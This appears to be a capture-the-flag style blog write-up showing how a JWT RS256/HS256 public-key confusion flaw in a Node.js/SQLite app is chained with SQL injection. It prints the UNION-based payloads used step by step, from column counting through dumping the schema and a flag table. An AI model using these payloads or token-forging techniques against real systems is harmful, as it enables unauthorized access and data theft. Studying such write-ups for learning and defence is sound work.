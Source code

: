 [back](/)

### SQL injection in Node.js webapp and JSON Web Tokens (JWT)

What JSON Web Token (JWT) is? It is an open standard [RFC 7519](https://tools.ietf.org/html/rfc7519) for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: [jwt.io](https://jwt.io/introduction/). There are a number of interesting techniques for exploiting vulnerabilities in JWT, but in this example I would like to show the **RS/HS256 public key mismatch vulnerability** and SQL injection exploitation through this vulnerability.

In this example there is a server with a Node.js runtime and a SQLite database, here is the example of authorization and receipt of JWT:

![Image](/img/RS_HS256/auth_jwt.png)

JWT consists of three parts: Header, Payload, Verify Signature, encoded in Base64 format and separated by a dot:

![Image](/img/RS_HS256/jwt_decode.png)

In the process of examining the code of the Node.js web application, a fragment of an SQL query was found with the direct inclusion of the value of the parameter, which is controlled by the user: **${username}:**

![Image](/img/RS_HS256/auth_code.png)

![Image](/img/RS_HS256/vuln_code.png)


To investigate possible SQL injection and JWS token signing via **RS/HS256 public key mismatch** I used [jwt_tool](https://github.com/ticarpi/jwt_tool) tool. To generate payload, it need to change the value of the **${username}** parameter and then sign the JWS using public.key. A valid JWS is specified as a parameter for the tool:

![Image](/img/RS_HS256/jwtool_1.png)

![Image](/img/RS_HS256/jwtool_pub_key_sign.png)

The SQL injection research process was accompanied by the use of the following payloads:

The answer "HTTP/1.1 200 OK" means there is an SQL injection:
```
"username" : "jaki' and 1=1 -- -"
```

![Image](/img/RS_HS256/jwtool_true_sqli.png)

![Image](/img/RS_HS256/valid_jwt_200.png)

Number of columns in error for UNION SELECT structure:
```
"username" : "' order by 5; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_2.png)

![Image](/img/RS_HS256/sqli_union_columns.png)

SQLite version:
```
"username" : "' union select 1,sqlite_version(),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_3.png)

![Image](/img/RS_HS256/sqli_ver.png)

List of all database objects and the SQL request used to create each object:
```
"username" : "' union select  1,(SELECT group_concat(sql) FROM sqlite_master),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_4.png)

![Image](/img/RS_HS256/sqli_master.png)


Retrieving sensitive information from the target table:
```
"username" : "' union select  1,(SELECT group_concat(top_secret_flaag) FROM flag_storage),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_5.png)

![Image](/img/RS_HS256/sqli_flag.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)